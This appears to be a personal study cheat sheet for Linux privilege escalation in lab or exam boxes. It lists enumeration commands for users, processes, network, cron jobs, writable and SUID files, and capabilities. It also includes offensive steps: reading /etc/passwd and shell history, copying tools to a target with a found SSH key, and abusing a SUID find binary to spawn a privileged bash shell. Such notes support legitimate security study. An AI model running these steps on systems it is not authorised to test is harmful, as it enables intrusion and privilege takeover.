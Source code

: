 #recon #enumerations #priviledgeEscalation #linux 

### Check the User Details

```bash
id 
```

```bash
sudo -l
```

### Check all the WEB Directories

```bash
cd /var/www
```
### Check user command history

### Check Home DIR FIles

check WC for strangely big files 
```bash
wc .*
```

```bash
cat .history
```
### Keys in Plain Sight
```bash
scp -i ~/boxes/relia/19/id_rsa ./pspy64 sarah@172.16.126.19:
```

### Enumerate all users

```bash
cat /etc/passwd
```

### Enumerate System(For Exploits)

```bash
cat /etc/issues
```

```bash
cat /etc/*-release
```

```bash
uname -a
```
 🔴 Then Google it
### Check User tables in SQL 

### Process Listing

```bash
ps aux
```

### Network Infomation

```bash
route
```

```bash
netstat -anp
```

```bash
ls /etc/iptables
```

### Scheduled Tasks

```
ls -lah /etc/cron*
```
current users scheduled jobs
```bash
crontab -l
```

```bash
grep "CRON" /var/log/syslog
```

### Applications

```bash
dpkg -l
```

```bash
sudo yum list installed
```

### Find Writable Directories/Files

If no result remove grep

```bash
find / -writable -type d 2>/dev/null | grep -Fv -e "/home/cmeeks" -e "/proc/" -e "/sys/"
```

```bash
find / -writable -type f 2>/dev/null | grep -Fv -e "/home/cmeeks" -e "/proc/" -e "/sys/"
```
### Find SUID Files

🔴 Check for the versions in the list and check only the file name

```bash
find / -perm -u=s -type f 2>/dev/null
```

find is vulnerable 

```bash
find /home/joe/Desktop -exec "/usr/bin/bash" -p \;
```

### Using Capabilities

```bash
/usr/sbin/getcap -r / 2>/dev/null
```

1. It should look  like below

**/usr/bin/gdb = cap_setuid+ep**

2. Then check the binary in GTFO bins

https://gtfobins.github.io/

### UNMOUNTED directories

```bash
cat /etc/fstab
```

```bash
mount
```

```bash
lsblk  --noheadings --raw | awk '$1~/s.*[[:digit:]]/ && $7==""'  
```

### Kernel Information

```bash
lsmod
```
then pick one
```bash
/sbin/modinfo libata
```


### Automated  Check

```bash
scp /usr/bin/unix-privesc-check user@remote_host.com:/some/remote/directory
```

Run the script  as SUDO and normal

### Anomalous File

1. If git repo is there

```bash
find / -name *.git* 2>/dev/null
```
   - Check the commit history
```bash
git log   
```

```bash
git show xxx
```

   - Check for presence of a git-server / git-shell
   [[Hunit]]
   